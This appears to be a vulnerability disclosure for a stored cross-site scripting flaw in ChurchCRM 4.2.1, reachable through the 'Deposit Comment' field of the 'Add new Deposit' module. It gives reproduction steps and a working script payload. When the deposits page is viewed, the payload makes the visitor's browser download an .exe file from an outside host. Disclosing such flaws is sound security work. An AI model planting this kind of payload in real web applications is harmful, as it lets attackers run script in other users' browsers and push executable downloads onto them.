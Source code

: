 # ChurchCRM 4.2.1- Persistent Cross Site Scripting(XSS)

## Vendor Homepage: https://churchcrm.io/
## Software Link: https://github.com/ChurchCRM/CRM 

## Vulnerability Type :
XSS


## Vulnerability Version :
Version: 4.2.1


## Recurring environment:
* Windows 10
* PHP 5.4.5
* Apache 2.4.23


## Vulnerability Description AND recurrence:

ChurchCRM application allows stored XSS , via 'Add new Deposit' module, that is rendered upon 'View All Deposits' page visit. There are multiple locations where this can be replicated To exploit this vulnerability:
 
   1. Login to the application, go to 'View all Deposits' module.
   2. Add the payload ( <script>var link = document.createElement('a');
   link.href = 'http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe';
   link.download = ''; document.body.appendChild(link); link.click();
</script> ) in the 'Deposit Comment' field and click "Add New Deposit".
   3. Payload is executed and a .exe file is downloaded.
